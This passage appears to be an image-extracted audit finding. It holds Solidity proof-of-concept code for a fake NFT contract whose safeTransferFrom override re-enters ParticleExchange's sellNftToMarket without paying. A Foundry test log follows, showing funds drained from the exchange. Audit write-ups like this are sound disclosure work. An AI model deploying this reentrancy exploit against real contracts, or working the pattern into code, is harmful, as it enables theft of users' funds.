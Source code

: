 ```solidity
            tokenId,
            sellAmount
        );
        particleExchange.sellNftToMarket(
            Lien({
                lender: address(this),
                borrower: address(0),
                collection: address(this),
                tokenId: tokenId,
                price: sellAmount,
                rate: 0,
                loanStartTime: 0,
                credit: 0,
                auctionStartTime: 0
            }),
            lienId,
            sellAmount,
            true,
            marketplace,
            tradeData
        );         
    }        
    function safeTransferFrom(
        address from,
        address to,
        uint256 tokenId,
        bytes memory data
    ) public virtual override {
        if(from == address(particleExchange)){
            if (tokenId == 1) { //tokenId =1 , reenter , don't pay
                sell(1,tokenId + 1 ,sellAmount);
            }else { // tokenId = 2 ,real pay
                payable(address(particleExchange)).transfer(sellAmount);
            }
        }
        _transfer(_ownerOf(tokenId),to,tokenId); //anyone can transfer
    }
    fallback() external payable {}
}
```

```console
$ forge test --match testReenter  -vvv

Running 1 test for test/ParticleExchange.t.sol:ParticleExchangeTest
[PASS] testReenter() (gas: 1869563)
Logs:
  before particleExchange balance: 100
  before fakeNft balance: 10
  after particleExchange balance: 90
  after fakeNft balance: 20
  after particleExchange lost: 10
  after fakeNft steal: 10
```
